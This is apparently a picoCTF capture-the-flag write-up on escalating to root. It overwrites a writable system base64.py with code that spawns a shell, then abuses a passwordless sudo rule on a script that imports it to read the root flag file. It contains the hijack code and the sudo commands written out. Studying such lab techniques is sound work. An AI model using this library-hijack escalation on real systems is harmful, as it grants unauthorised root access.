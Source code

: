 # Mini writeup

On the server we see a .server.py

``` python
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info) 
```

pretty chill no real exploits here, but we look at the imported packages, we can find the files of the imports from

```python
$ python3
>>> import sys
>>> print(sys.path)
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
```

looking at `/usr/lib/python3.8`, we can see that base64.py has read write permissions.

We can simply use vim to overwrite base64.py to
```python
import os
os.system("/bin/sh")
```

We can look for an escalation point
```sh
$ sudo -l
# tldr
omg user u can run without a password, (NOPASSWD)
sudo /usr/bin/python3 /home/picoctf/.server.py
# so lets run that

$ sudo /usr/bin/python3 /home/picoctf/.server.py
# cat /root/.flag.txt
profit
```


